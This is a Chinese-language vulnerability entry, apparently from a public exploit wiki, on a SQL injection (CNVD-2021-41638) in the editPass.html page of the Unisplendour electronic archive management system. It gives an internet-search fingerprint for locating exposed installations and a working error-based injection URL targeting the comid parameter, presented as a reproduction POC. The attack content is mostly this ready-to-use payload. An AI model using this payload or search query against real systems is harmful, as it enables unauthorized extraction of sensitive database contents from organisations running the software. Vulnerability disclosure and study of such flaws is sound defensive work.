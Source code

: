 # 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。
紫光电子档案管理系统存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>紫光电子档案管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="紫光档案管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1633168580711-690386c5-48bd-4162-b6ed-763c9f57ee73.png)

验证POC

```java
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![img](/assets/PeiQi-Wiki/img/1633168707994-229d0a0c-dedf-4d6b-9554-da2d9015767a.png)